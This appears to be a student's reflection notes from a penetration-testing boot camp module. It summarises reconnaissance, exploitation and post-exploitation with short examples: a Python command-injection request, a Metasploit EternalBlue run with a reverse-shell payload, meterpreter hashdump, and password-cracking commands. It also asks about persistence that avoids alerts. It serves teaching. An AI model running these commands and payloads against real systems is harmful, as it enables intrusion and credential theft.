 ```markdown
# Module 15 Reflection: Penetration Testing and Post-Exploitation

Congratulations on completing Module 15 of the Cybersecurity Boot Camp! This module covered a wide range of penetration testing concepts and techniques. Below is a summary of the key topics, along with easy-to-remember examples for future reference.

---

## Key Topics and Examples

### 1. Understand the Role of a Pen Tester in Assessing a Business's Security
- **Role**: Simulate cyberattacks to identify vulnerabilities and provide recommendations.
- **Example**: A pen tester scans a company's web application for SQL injection vulnerabilities and provides a report with remediation steps.

---

### 2. Collect Domain Information Using OSINT Techniques and Tools
- **Tools**: Google Hacking, Shodan, and certificate transparency.
- **Example**:
  - **Google Hacking**: `site:example.com filetype:pdf` to find PDF files on a domain.
  - **Shodan**: `hostname:example.com` to discover devices and services associated with a domain.
  - **Certificate Transparency**: Use [crt.sh](https://crt.sh/) to find subdomains of `example.com`.

---

### 3. Use Shodan and Recon-ng to Discover Domain Server Information
- **Shodan Example**:
  ```plaintext
  hostname:example.com
  ```
  - Reveals open ports and services for `example.com`.
- **Recon-ng Example**:
  ```plaintext
  modules load recon/domains-hosts/shodan_hostname
  run
  ```
  - Automates reconnaissance to gather domain server information.

---

### 4. Understand How Initial Access Fits into the MITRE Matrix
- **Initial Access**: The first step in the MITRE ATT&CK framework, focusing on gaining entry into a target system.
- **Example**: Using a phishing email to deliver a malicious payload that exploits a vulnerability.

---

### 5. Recognize Phishing Emails
- **Indicators**:
  - Suspicious sender.
  - Urgent language.
  - Malicious links or attachments.
- **Example**:
  ```plaintext
  Subject: Urgent: Update Your Account Information
  Link: http://malicious-link.com
  ```

---

### 6. Perform Advanced Nmap Scans with NSE Scripts
- **Example**:
  ```bash
  nmap --script vuln example.com
  ```
  - Scans for vulnerabilities on `example.com`.

---

### 7. Exploit a Machine with a Python Script
- **Example**:
  ```python
  import requests

  target_url = "http://example.com/vulnerable_endpoint"
  payload = {"input": "; id ;"}

  response = requests.post(target_url, data=payload)
  print(response.text)
  ```
  - Exploits a command injection vulnerability.

---

### 8. Understand Command and Control (C2)
- **Definition**: A technique to maintain communication with compromised systems.
- **Example**: Using a C2 server to execute commands on a compromised machine.

---

### 9. Use Metasploit to Automate Exploitation Activities
- **Example**:
  ```plaintext
  msfconsole
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOSTS 192.0.2.1
  set payload windows/x64/meterpreter/reverse_tcp
  exploit
  ```
  - Automates the exploitation of the MS17-010 vulnerability.

---

### 10. Explain Privilege Escalation
- **Definition**: Gaining higher-level privileges on a compromised system.
- **Example**: Exploiting a vulnerable SUID binary on Linux to gain root access.

---

### 11. Perform Basic Privilege Escalation Tasks
- **Windows Example**:
  ```plaintext
  systeminfo
  ```
  - Identifies missing patches for privilege escalation.
- **Linux Example**:
  ```bash
  find / -perm -4000 -type f 2>/dev/null
  ```
  - Finds SUID binaries for potential exploitation.

---

### 12. Describe Common Tasks in Privileged Post-Exploitation
- **Tasks**:
  - Gather sensitive information (e.g., password hashes).
  - Maintain persistence (e.g., create backdoors).
  - Perform lateral movement.
- **Example**: Using `hashdump` in Meterpreter to extract password hashes.

---

### 13. Perform Post-Exploitation Tasks, Such as Gathering Password Hashes
- **Example**:
  ```plaintext
  meterpreter > hashdump
  ```
  - Dumps password hashes from a compromised Windows machine.

---

### 14. Explain How Password Crackers Work and Perform Password Cracking
- **Tools**:
  - **John the Ripper**:
    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
    ```
  - **Hashcat**:
    ```bash
    hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
    ```

---

### 15. Understand the Importance of Reporting and Fill Out a Strong Report
- **Key Components**:
  - Executive Summary: High-level overview for management.
  - Findings: Detailed technical analysis for system administrators.
  - Recommendations: Actionable steps to mitigate vulnerabilities.
- **Example**:
  ```plaintext
  Vulnerability: SQL Injection
  Severity: Critical
  Recommendation: Implement input validation and parameterized queries.
  ```

---

## Reflection

### What New Topics Did You Learn?
- Advanced Nmap scans with NSE scripts.
- Using Python scripts for exploitation.
- The importance of documenting failed actions during penetration testing.

### How Has Your Understanding Evolved?
- I now have a deeper understanding of how initial access fits into the MITRE ATT&CK framework and how to map actions to it.
- I learned how to balance technical and non-technical content in a penetration testing report.

### What Are You Wondering About?
- How to further automate post-exploitation tasks using custom scripts.
- Best practices for maintaining persistence without triggering alerts.

### Questions
- How can I improve my efficiency in privilege escalation tasks?
- What are the latest tools for detecting and bypassing advanced defensive measures?

---

```